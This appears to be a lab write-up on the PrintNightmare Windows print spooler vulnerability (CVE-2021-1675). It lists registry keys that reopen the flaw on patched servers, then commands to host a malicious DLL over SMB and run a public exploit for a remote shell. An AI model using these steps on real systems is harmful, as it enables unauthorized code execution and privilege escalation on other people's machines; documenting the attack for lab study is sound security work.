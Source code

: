 # PrintNightmare (CVE-2021-1675)
## Summary

PrintNightmare is a critical vulnerability that allows an attacker to obtain remote code execution and/or privilege escalation against any target Windows machine using the Spooler service that is enabled by default. While Microsoft has issued a patch for this vulnerability, if a few registry keys are present, then the target will still be vulnerable despite having the patch.

## Prerequisites

Either a Windows server that doesn't have the patch released on July 1st, 2021, or must have some special registry keys added. Further, some form of SMB server and a custom compiled DLL is required to exploit this vulnerability.

## Setup

Once the server is installed, and *if* the server contains the patch, then the following registry keys need to be installed:

```registry
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\RestrictDriverInstallationToAdministrators REG_DWORD 0x0
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall REG_DWORD 0x1
```

![registry entries](./images/Pasted%20image%2020230606093107.png)

## Execution

### Method 1 - Cube0x0's Repo

Clone [Cube0x0's repo](https://github.com/cube0x0/CVE-2021-1675) (https://github.com/cube0x0/CVE-2021-1675), as well as [this DLL repo] (https://github.com/NukingDragons/DllHijacks)(https://github.com/NukingDragons/DllHijacks). Pick the DLL you want from the DLL repo and compile it on Windows, or using MinGW following the instructions in the README.

Once you have the DLL of choice compiled, and whatever listener/method of receiving or connecting to the shell configured, use impackets SMB server to host the file, and run the following commands:

```bash
impacket-smbserver -smb2support share /path/to/folder/with/DLL
```

Finally, exploit the target:

```bash
python3 CVE-2021-1675 domain.com/username:'password'@target-ip '\\your-ip\share\your.dll'
```

![successful connection](./images/Pasted%20image%2020230606100148.png)

#### Indicators of Compromise

TODO
